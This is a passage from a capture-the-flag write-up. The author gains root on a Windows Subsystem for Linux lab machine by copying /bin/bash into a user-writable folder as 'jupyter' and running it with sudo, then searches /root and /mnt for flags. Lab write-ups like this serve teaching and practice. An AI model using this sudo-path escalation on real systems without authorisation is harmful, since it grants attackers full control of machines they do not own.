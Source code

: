 ```bash
(base) dev-datasci@DEV-DATASCI-JUP:~$ cd .local/bin
(base) dev-datasci@DEV-DATASCI-JUP:~/.local/bin$ ls
f2py  f2py3  f2py3.8
```

And there isn't a jupyter file at all?

Well, then let's try to get a root shell. We simply copy the bash file to the ```.local/bin``` folder and rename it to jupyter:

```bash
(base) dev-datasci@DEV-DATASCI-JUP:~/.local/bin$ cp /bin/bash jupyter
(base) dev-datasci@DEV-DATASCI-JUP:~/.local/bin$ ls
bash  f2py  f2py3  f2py3.8  jupyter
```

Now, we'll run the bash with root privileges.

*Note: You must provide the full path or ```sudo ./jupyter``` to the sudo command. If you try to run it with ```sudo jupyter```, even if you are in the right folder, you'd need to enter a password because the local folder is not in the $PATH variable.*

```bash
(base) dev-datasci@DEV-DATASCI-JUP:~/.local/bin$ sudo ./jupyter

root@DEV-DATASCI-JUP:/home/dev-datasci/.local/bin# whoami
root
```

Great, it seems we have root priviliges now. Let's see where those flags are...

### Step 5: Finding flags

If you have done a couple of CTFs before, you know that the first folder to look for flags is the root folder.

Imaging my disappointment when I saw this...

```bash
root@DEV-DATASCI-JUP:~# cd /root
root@DEV-DATASCI-JUP:~# ls -la
total 4
drwx------ 1 root root 4096 Jun 21 07:12 .
drwxr-xr-x 1 root root 4096 Aug 25  2022 ..
-rw------- 1 root root   16 Jun 21 07:12 .bash_history
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x 1 root root 4096 Aug 25  2022 .local
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
```

In fact, I couldn't find a single flag on the whole system. Not even the user flag.

I spent the next hour reading about Windows Subsystem for Linux (WSL...) until I stumbled upon the ```/mnt``` folder.

```bash
root@DEV-DATASCI-JUP:~# cd /mnt
root@DEV-DATASCI-JUP:/mnt# ls -la
total 0
drwxr-xr-x 1 root root 4096 Aug 25  2022 .
drwxr-xr-x 1 root root 4096 Aug 25  2022 ..
drwxrwxrwx 1 root root 4096 Aug 25  2022 c
root@DEV-DATASCI-JUP:/mnt#
```

